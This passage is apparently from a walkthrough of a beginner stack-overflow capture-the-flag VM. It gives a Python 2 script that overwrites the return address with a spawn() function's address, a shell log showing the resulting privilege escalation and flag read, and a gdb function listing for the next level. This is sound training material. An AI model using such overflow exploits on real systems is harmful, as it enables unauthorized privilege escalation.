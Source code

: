 Take the `ebp` address `0x565561e9` which is the address at which the function gets called. With the information so far, a working python script can be written to exploit the binary and use the `spawn` as our injection point.

One important step to note is that the memory of the `spawn` function needs to be converted to little endian format so that the CPU can understand it.

A complete python exploit would be as follows:

```python
#!/usr/bin/env python2
import struct

junk = "A" * 36
eip = struct.pack("<I", 0x565561e9) # Pack the spawn() mem addr in little endian

payload = junk + eip
print payload
```

The exploit can then be provided as user input to the program and exploit it.

```bash
level1@kali:~$ ./levelTwo $(python2 exploit.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�aUV
$ id
uid=1002(level2) gid=1001(level1) groups=1001(level1)
$ cat /home/level2/level2.txt
d658dfc[REDACTED]
```

# Level 2 -> Level 3:

The complexity of the binary is increased at level 2 slightly.
Let's debug the program.

Load the `levelThree` binary in gdb-peda and list all the functions as was done in the previous challenges.

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00001000  _init
0x00001030  setresuid@plt
0x00001040  printf@plt
0x00001050  geteuid@plt
0x00001060  strcpy@plt
0x00001070  __libc_start_main@plt
0x00001080  __cxa_finalize@plt
0x00001090  _start
0x000010d0  __x86.get_pc_thunk.bx
0x000010e0  deregister_tm_clones
0x00001120  register_tm_clones
0x00001170  __do_global_dtors_aux
0x000011c0  frame_dummy
0x000011c5  __x86.get_pc_thunk.dx
0x000011c9  overflow
0x00001212  main
0x00001280  __libc_csu_init
0x000012e0  __libc_csu_fini
0x000012e4  _fini
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>